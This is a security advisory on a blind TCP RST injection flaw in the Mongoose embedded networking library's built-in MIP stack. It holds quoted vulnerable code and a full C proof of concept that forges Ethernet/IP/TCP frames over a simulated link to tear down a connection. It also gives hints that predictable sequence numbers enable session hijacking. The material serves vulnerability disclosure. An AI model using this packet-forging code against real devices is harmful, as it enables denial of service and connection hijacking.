

# Mongoose MIP Blind TCP RST Injection

## Description

The built-in TCP/IP stack (MIP) in Mongoose accepts TCP RST packets without validating the source IP address or the sequence number thus allowing an attacker to terminate arbitrary TCP sessions. 
The `getpeer()` function in `/src/net_builtin.c` matches incoming TCP segments to existing connections using **only the port pair** (source port, destination port), ignoring the source IP address entirely. Once a connection is matched, the `rx_tcp()` function immediately terminates the connection upon seeing the RST flag without checking whether the segment's sequence number falls within the valid receive window. This violates RFC 5961 (Improving TCP's Robustness to Blind In-Window Attacks) and allows any host on the network to terminate arbitrary TCP connections by sending a single forged RST packet with the correct port pair and any source IP or sequence number.

## Details

*   **Vendor**: Cesanta

*   **Product**: Mongoose Embedded Web Server / Networking Library

*   **Affected Version**: 7.20 (and likely all prior versions)

*   **Source Repository**: https://github.com/cesanta/mongoose

*   **Component**: `/src/net_builtin.c` (getpeer and rx_tcp functions, MIP built-in TCP/IP stack)

*   **Vulnerability Type**:
    * Improper Verification of Source of a Communication Channel (CWE-940)
    * Improper Validation of Specified Index, Position, or Offset in Input (CWE-1285)

*   **CVE ID**: Requested

*   **Reported by**: dwbruijn

## Similar Vulnerabilities

* CVE-2020-25241

## Vulnerable Code

The vulnerability has two root causes: `getpeer()` does not validate the source IP, and `rx_tcp()` does not validate the RST sequence number.

### Vulnerable Code 1: Connection lookup (`net_builtin.c:538-558`)

```c
static struct mg_connection *getpeer(struct mg_mgr *mgr, struct pkt *pkt, bool lsn) {
  struct mg_connection *c = NULL;
  for (c = mgr->conns; c != NULL; c = c->next) {
    if (c->is_arplooking && pkt->arp && pkt->arp->spa == c->rem.addr.ip4) break;
    // ...
    if (!c->is_udp && pkt->tcp && c->loc.port == pkt->tcp->dport &&
        !(c->loc.is_ip6 ^ (pkt->ip6 != NULL)) && lsn == (bool) c->is_listening &&
        (lsn || c->rem.port == pkt->tcp->sport))  // ⚠️ No source IP check
      break;
  }
  return c;
}
```

The TCP branch (line 552-555) matches on `c->loc.port == pkt->tcp->dport` and `c->rem.port == pkt->tcp->sport` but never compares `c->rem.addr` against the packet's source IP. Any host that knows (or guesses) the port pair can inject packets that will be associated with the legitimate connection.

### Vulnerable Code 2: RST handling (`net_builtin.c:1537-1539`)

```c
  } else if (c != NULL && pkt->tcp->flags & TH_RST) {
    // TODO(): validate RST is within window (and optional with proper ACK)
    mg_error(c, "peer RST");  // RFC-1122 4.2.2.13
```

The code's own `TODO` comment acknowledges the missing validation. When the RST flag is set, the connection is killed unconditionally via `mg_error()` -- no check that the sequence number falls within the receive window (`RCV.NXT <= SEG.SEQ < RCV.NXT + RCV.WND`) as required by RFC 5961 Section 3.2.

## PoC

The PoC uses a SOCK_DGRAM socketpair as a virtual Ethernet link to the MIP stack, avoiding the need for root privileges or TAP interfaces. A legitimate client establishes a TCP connection with the Mongoose server, then an attacker from a **different IP address** injects a single RST with a **completely wrong sequence number**. The RST is accepted and the connection between the client and the server is terminated.

**PoC** (`poc/tcp_rst.c`):

```c
// PoC: Mongoose MIP Blind TCP RST Injection
//
// Demonstrates that Mongoose's built-in TCP/IP stack (MIP) accepts TCP RST
// packets without validating:
//   1. Sequence numbers (violates RFC 5961)
//   2. Source IP address (getpeer only matches on ports)
// Thus allowing an attacker on the network to terminate arbitrary TCP sessions.
//
// Uses a socketpair as a virtual network -- no root required.
//
// Build:
//   gcc -o tcp_rst tcp_rst.c ../mongoose.c -I.. -DMG_ENABLE_TCPIP=1 -lpthread
//
// Run:
//   ./tcp_rst

#include "mongoose.h"

#include <poll.h>
#include <pthread.h>
#include <sys/socket.h>

// ---------------------------------------------------------------------------
// Virtual network topology
//
//   MIP device (victim):  192.168.0.2   MAC 02:00:01:02:03:77
//   Legitimate client:    192.168.0.100  MAC AA:BB:CC:DD:EE:01
//   Attacker:             192.168.0.50   MAC DE:AD:BE:EF:00:01
//
// The socketpair acts as a virtual Ethernet link between the MIP stack and
// the "outside world" (client + attacker).  s_fds[0] is the MIP driver side,
// s_fds[1] is the network side where both client and attacker inject frames.
// ---------------------------------------------------------------------------
static int s_fds[2];

// Network addresses
#define MIP_IP      MG_IPV4(192, 168, 0, 2)
#define MIP_MASK    MG_IPV4(255, 255, 255, 0)
#define CLIENT_IP   MG_IPV4(192, 168, 0, 100)
#define ATTACKER_IP MG_IPV4(192, 168, 0, 50)
#define LISTEN_PORT 8080
#define CLIENT_PORT 44444

static const uint8_t mip_mac[]      = {0x02, 0x00, 0x01, 0x02, 0x03, 0x77};
static const uint8_t client_mac[]   = {0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0x01};
static const uint8_t attacker_mac[] = {0xDE, 0xAD, 0xBE, 0xEF, 0x00, 0x01};

// Connection state observed by Mongoose's event handler
static volatile bool s_accepted = false;
static volatile bool s_reset = false;

// ---------------------------------------------------------------------------
// MIP network driver
//
// Mongoose's built-in TCP/IP stack (MIP) needs a driver to send and receive
// raw Ethernet frames.  Normally this talks to real hardware (STM32 ETH, etc).
// Here we back it with one end of a SOCK_DGRAM socketpair so we can inject
// and capture frames from userspace without root or a TAP interface.
// ---------------------------------------------------------------------------
static size_t drv_tx(const void *buf, size_t len, struct mg_tcpip_if *ifp) {
  ssize_t n = write(s_fds[0], buf, len);
  return n > 0 ? (size_t) n : 0;
  (void) ifp;
}

static size_t drv_rx(void *buf, size_t len, struct mg_tcpip_if *ifp) {
  struct pollfd pfd = {s_fds[0], POLLIN, 0};
  if (poll(&pfd, 1, 0) <= 0) return 0;
  ssize_t n = read(s_fds[0], buf, len);
  return n > 0 ? (size_t) n : 0;
  (void) ifp;
}

static bool drv_poll(struct mg_tcpip_if *ifp, bool s1) {
  (void) ifp;
  return s1;
}

// ---------------------------------------------------------------------------
// HTTP handler -- monitors connection lifecycle
//
// MG_EV_ACCEPT fires when a TCP connection is established.
// MG_EV_ERROR with "peer RST" fires when rx_tcp() at net_builtin.c:1537
// accepts a RST and calls mg_error().  We use these two flags to confirm
// that a connection was first established and then killed by the spoofed RST.
// ---------------------------------------------------------------------------
static void http_cb(struct mg_connection *c, int ev, void *ev_data) {
  if (ev == MG_EV_ACCEPT) {
    s_accepted = true;
  } else if (ev == MG_EV_ERROR) {
    if (strstr((char *) ev_data, "RST") != NULL) s_reset = true;
  } else if (ev == MG_EV_HTTP_MSG) {
    mg_http_reply(c, 200, "", "OK\n");
  }
}

// ---------------------------------------------------------------------------
// Raw Ethernet frame construction
//
// We build frames by hand: Ethernet header (14 bytes) + IPv4 header (20) +
// TCP header (20).  Checksums are computed correctly so MIP doesn't drop them.
// ---------------------------------------------------------------------------
#pragma pack(push, 1)
struct eth_hdr { uint8_t dst[6], src[6]; uint16_t type; };
struct arp_pkt {
  uint16_t htype, ptype; uint8_t hlen, plen; uint16_t oper;
  uint8_t sha[6]; uint32_t spa; uint8_t tha[6]; uint32_t tpa;
};
struct ip4_hdr {
  uint8_t ver_ihl, tos; uint16_t len, id, frag;
  uint8_t ttl, proto; uint16_t csum; uint32_t src, dst;
};
struct tcp_hdr {
  uint16_t sport, dport; uint32_t seq, ack;
  uint8_t off, flags; uint16_t win, csum, urg;
};
#pragma pack(pop)

static uint16_t checksum(const void *data, size_t len) {
  const uint16_t *p = (const uint16_t *) data;
  uint32_t sum = 0;
  for (size_t i = 0; i < len / 2; i++) sum += p[i];
  if (len & 1) sum += ((const uint8_t *) data)[len - 1];
  while (sum >> 16) sum = (sum & 0xFFFF) + (sum >> 16);
  return (uint16_t) ~sum;
}

// TCP checksum includes an IP pseudo-header (src, dst, proto, length)
static uint16_t tcp_csum(struct ip4_hdr *ip, struct tcp_hdr *tcp,
                         size_t tcp_len) {
  uint8_t pseudo[12 + 60];
  memcpy(pseudo, &ip->src, 4);
  memcpy(pseudo + 4, &ip->dst, 4);
  pseudo[8] = 0;
  pseudo[9] = 6;
  pseudo[10] = (uint8_t) (tcp_len >> 8);
  pseudo[11] = (uint8_t) tcp_len;
  memcpy(pseudo + 12, tcp, tcp_len);
  return checksum(pseudo, 12 + tcp_len);
}

// Construct and inject a complete Ethernet + IPv4 + TCP frame
static void send_tcp_frame(int fd, const uint8_t *smac, const uint8_t *dmac,
                           uint32_t sip, uint32_t dip, uint16_t sport,
                           uint16_t dport, uint32_t seq, uint32_t ackn,
                           uint8_t flags) {
  uint8_t frame[14 + 20 + 20];
  memset(frame, 0, sizeof(frame));

  struct eth_hdr *eth = (struct eth_hdr *) frame;
  struct ip4_hdr *ip  = (struct ip4_hdr *) (frame + 14);
  struct tcp_hdr *tcp = (struct tcp_hdr *) (frame + 34);

  memcpy(eth->dst, dmac, 6);
  memcpy(eth->src, smac, 6);
  eth->type = htons(0x0800);

  ip->ver_ihl = 0x45;
  ip->ttl = 64;
  ip->proto = 6;
  ip->len = htons(40);
  ip->src = sip;
  ip->dst = dip;
  ip->csum = checksum(ip, 20);

  tcp->sport = htons(sport);
  tcp->dport = htons(dport);
  tcp->seq   = htonl(seq);
  tcp->ack   = htonl(ackn);
  tcp->off   = 0x50;
  tcp->flags = flags;
  tcp->win   = htons(65535);
  tcp->csum  = tcp_csum(ip, tcp, 20);

  write(fd, frame, sizeof(frame));
}

// Construct and inject an ARP reply frame
static void send_arp_reply(int fd, const uint8_t *smac, uint32_t sip,
                           const uint8_t *dmac, uint32_t dip) {
  uint8_t frame[14 + 28];
  memset(frame, 0, sizeof(frame));

  struct eth_hdr *eth = (struct eth_hdr *) frame;
  struct arp_pkt *arp = (struct arp_pkt *) (frame + 14);

  memcpy(eth->dst, dmac, 6);
  memcpy(eth->src, smac, 6);
  eth->type = htons(0x0806);

  arp->htype = htons(1);
  arp->ptype = htons(0x0800);
  arp->hlen  = 6;
  arp->plen  = 4;
  arp->oper  = htons(2);
  memcpy(arp->sha, smac, 6);
  arp->spa = sip;
  memcpy(arp->tha, dmac, 6);
  arp->tpa = dip;

  write(fd, frame, sizeof(frame));
}

// Read one frame from the network side, with timeout (ms)
static ssize_t net_read(int fd, uint8_t *buf, size_t len, int timeout_ms) {
  struct pollfd pfd = {fd, POLLIN, 0};
  if (poll(&pfd, 1, timeout_ms) <= 0) return -1;
  return read(fd, buf, len);
}

// ---------------------------------------------------------------------------
// Network thread
//
// Phase 1 -- Legitimate client: performs a standard TCP handshake with the
//   MIP device to establish a connection (ARP announcement, SYN, SYN-ACK, ACK).
//
// Phase 2 -- Attacker: after the connection is established, injects a single
//   TCP RST frame with a WRONG source IP (192.168.0.50 instead of the real
//   peer 192.168.0.100) and a WRONG sequence number (99999999).  The only
//   thing that matches is the port pair (sport=44444, dport=8080).
//
//   MIP's getpeer() (net_builtin.c:552) only checks ports, not IP, so it
//   finds the connection.  Then rx_tcp() (net_builtin.c:1537) sees the RST
//   flag and kills the connection without validating the sequence number.
// ---------------------------------------------------------------------------
static void *network_thread(void *arg) {
  int fd = s_fds[1];
  uint8_t buf[2048];

  // Wait for MIP to initialize (it sends gratuitous ARP on startup)
  usleep(200000);

  // --- Phase 1: Legitimate client establishes a TCP connection ---

  // Tell MIP our MAC so it can send frames back to us
  printf("[CLIENT]   Sending ARP announcement\n");
  send_arp_reply(fd, client_mac, CLIENT_IP, mip_mac, MIP_IP);

  // Drain any MIP startup frames (gratuitous ARP, DHCP, etc.)
  for (int i = 0; i < 20; i++) {
    struct pollfd pfd = {fd, POLLIN, 0};
    if (poll(&pfd, 1, 50) > 0) read(fd, buf, sizeof(buf));
  }

  // SYN: begin TCP three-way handshake
  printf("[CLIENT]   SYN -> 192.168.0.2:%d\n", LISTEN_PORT);
  uint32_t cli_seq = 1000;
  send_tcp_frame(fd, client_mac, mip_mac, CLIENT_IP, MIP_IP,
                 CLIENT_PORT, LISTEN_PORT, cli_seq, 0, 0x02 /* SYN */);

  // Wait for SYN-ACK from MIP
  uint32_t srv_seq = 0;
  bool got_synack = false;
  for (int i = 0; i < 200 && !got_synack; i++) {
    ssize_t n = net_read(fd, buf, sizeof(buf), 50);
    if (n < 54) continue;
    struct eth_hdr *eth = (struct eth_hdr *) buf;
    if (ntohs(eth->type) != 0x0800) continue;
    struct ip4_hdr *ip = (struct ip4_hdr *) (buf + 14);
    if (ip->proto != 6) continue;
    struct tcp_hdr *tcp = (struct tcp_hdr *) (buf + 34);
    if (ntohs(tcp->sport) == LISTEN_PORT &&
        ntohs(tcp->dport) == CLIENT_PORT &&
        (tcp->flags & 0x12) == 0x12) {  // SYN+ACK
      srv_seq = ntohl(tcp->seq);
      got_synack = true;
    }
  }

  if (!got_synack) {
    printf("[CLIENT]   ERROR: no SYN-ACK received\n");
    return NULL;
  }
  printf("[CLIENT]   Got SYN-ACK (srv_seq=%u)\n", srv_seq);

  // ACK: complete the three-way handshake
  cli_seq++;
  send_tcp_frame(fd, client_mac, mip_mac, CLIENT_IP, MIP_IP,
                 CLIENT_PORT, LISTEN_PORT, cli_seq, srv_seq + 1,
                 0x10 /* ACK */);
  printf("[CLIENT]   ACK sent -- connection established\n");

  // Let the connection settle
  usleep(300000);

  // --- Phase 2: Attacker injects a blind RST ---

  printf("\n[ATTACKER] Sending RST from 192.168.0.50 (WRONG source IP)\n");
  printf("[ATTACKER] sport=%d dport=%d seq=99999999 (WRONG seq)\n",
         CLIENT_PORT, LISTEN_PORT);
  printf("[ATTACKER] Only the port pair matches -- no IP or seq validation\n");

  send_tcp_frame(fd, attacker_mac, mip_mac,
                 ATTACKER_IP, MIP_IP,            // wrong source IP!
                 CLIENT_PORT, LISTEN_PORT,       // correct ports
                 99999999, 0,                    // wrong sequence number
                 0x04 /* RST */);

  usleep(500000);
  return NULL;
  (void) arg;
}

int main(void) {
  printf("=== Mongoose MIP Blind TCP RST Injection PoC ===\n\n");
  printf("[SETUP] MIP device : 192.168.0.2   (MAC 02:00:01:02:03:77)\n");
  printf("[SETUP] Client     : 192.168.0.100 (legitimate peer)\n");
  printf("[SETUP] Attacker   : 192.168.0.50  (different host, same subnet)\n");
  printf("[SETUP] Server port: %d\n\n", LISTEN_PORT);

  // Create a SOCK_DGRAM socketpair to act as a virtual Ethernet link.
  // Each write = one Ethernet frame, preserving message boundaries.
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, s_fds) < 0) {
    perror("socketpair");
    return 1;
  }

  // Initialize Mongoose with the MIP built-in TCP/IP stack
  struct mg_mgr mgr;
  mg_mgr_init(&mgr);
  mg_log_set(MG_LL_NONE);

  struct mg_tcpip_driver driver = {.tx = drv_tx, .poll = drv_poll, .rx = drv_rx};
  struct mg_tcpip_if mif = {.driver = &driver,
                            .driver_data = NULL,
                            .ip = MIP_IP,
                            .mask = MIP_MASK,
                            .gw = MG_IPV4(192, 168, 0, 1)};
  memcpy(mif.mac, mip_mac, 6);
  mg_tcpip_init(&mgr, &mif);

  // Start an HTTP server on the MIP stack
  char url[32];
  snprintf(url, sizeof(url), "http://0.0.0.0:%d", LISTEN_PORT);
  mg_http_listen(&mgr, url, http_cb, NULL);

  // Start the network/attacker thread (runs client handshake then attack)
  pthread_t tid;
  pthread_create(&tid, NULL, network_thread, NULL);

  // Run the Mongoose event loop until the RST is detected or timeout
  uint64_t deadline = mg_millis() + 5000;
  while (mg_millis() < deadline && !s_reset) {
    mg_mgr_poll(&mgr, 10);
  }

  pthread_join(tid, NULL);
  mg_mgr_free(&mgr);
  close(s_fds[0]);
  close(s_fds[1]);

  printf("\n=== Result ===\n");
  printf("Connection accepted: %s\n", s_accepted ? "YES" : "NO");
  printf("Connection reset:    %s\n", s_reset ? "YES" : "NO");

  if (s_accepted && s_reset) {
    printf("\n*** BLIND TCP RST INJECTION SUCCESSFUL ***\n");
    printf("The RST was accepted despite:\n");
    printf("  - Source IP 192.168.0.50 (not the peer's 192.168.0.100)\n");
    printf("  - Sequence 99999999 (outside any valid window)\n");
    return 0;
  }

  if (!s_accepted) {
    printf("\nConnection was never established (handshake failed).\n");
  } else {
    printf("\nRST was not accepted (unexpected on vulnerable version).\n");
  }
  return 1;
}
```

### Triggering the vulnerability

create `poc` direcotry in mongoose repo directory.
copy the `tcp_rst.c` into `poc` directory

```bash
# Build PoC
cd poc
gcc -o tcp_rst tcp_rst.c ../mongoose.c -I.. -DMG_ENABLE_TCPIP=1 -lpthread

# Run
./tcp_rst
```

**Output:**



The RST from the attacker (192.168.0.50) was accepted despite having a completely wrong source IP (the legitimate peer is 192.168.0.100) and an out-of-window sequence number (99999999). The only thing the attacker needed to know was the port pair (44444, 8080).

Note that `srv_seq=44444` in the SYN-ACK reveals a separate issue: the TCP ISN is derived from the client's source port number (`net_builtin.c:2005-2008`), making it fully predictable.

## Potential Impact

The missing source IP and sequence number validation means any host on the local network can terminate any TCP connection to a MIP device with a single packet. The attacker only needs to know (or guess) the port pair -- the source IP and sequence number can be arbitrary.

**Direct consequences:**

*   **Denial of service**: An attacker can continuously kill TCP connections to a Mongoose device, preventing any client from maintaining a session. This affects HTTP connections, MQTT broker links, WebSocket sessions, and any other TCP-based communication.

**Amplifying factors in Mongoose's MIP stack:**

1.  **Sequential ephemeral source ports** (`net_builtin.c:2025`): Client-side connections from MIP use ports starting at `MG_EPHEMERAL_PORT_BASE` and incrementing sequentially, so an attacker who observes one connection can predict the port pair of the next connection without further observation.

2.  **Deterministic TCP ISNs** (`net_builtin.c:2005-2008`): The Initial Sequence Number is derived from the ephemeral port number (`isn = mg_htonl((uint32_t) mg_ntohs(c->loc.port))`). As demonstrated in the PoC output (`srv_seq=44444` = the client's source port), this means that after a successful RST terminates a connection, the attacker can predict the ISN of the next connection, enabling **TCP session hijacking** in addition to mere termination.
